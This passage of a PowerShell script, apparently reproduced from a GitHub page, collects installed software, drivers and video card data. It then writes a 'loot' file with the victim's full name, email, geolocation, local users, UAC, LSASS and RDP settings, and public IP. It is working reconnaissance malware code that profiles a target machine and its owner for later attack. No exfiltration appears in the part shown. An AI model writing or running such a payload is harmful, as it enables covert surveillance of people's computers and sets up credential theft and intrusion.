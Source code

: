 # installed software (get uninstaller)
$software=Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | where { $_.DisplayName -notlike $null } |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Sort-Object DisplayName | Format-Table -AutoSize | Out-String -width 250

# drivers
$drivers=Get-WmiObject Win32_PnPSignedDriver| where { $_.DeviceName -notlike $null } | select DeviceName, FriendlyName, DriverProviderName, DriverVersion | Out-String -width 250

# videocard
$videocard=Get-WmiObject Win32_VideoController | Format-Table Name, VideoProcessor, DriverVersion, CurrentHorizontalResolution, CurrentVerticalResolution | Out-String -width 250


############################################################################################################################################################

# OUTPUTS RESULTS TO LOOT FILE

$output = @"

############################################################################################################################################################         


Full Name: $fullName

Email: $email

GeoLocation:
Latitude:  $Lat 
Longitude: $Lon

------------------------------------------------------------------------------------------------------------------------------

Local Users:
$luser

------------------------------------------------------------------------------------------------------------------------------

UAC State:
$UAC

LSASS State:
$lsass

RDP State:
$RDP

------------------------------------------------------------------------------------------------------------------------------

Public IP: 
$computerPubIP
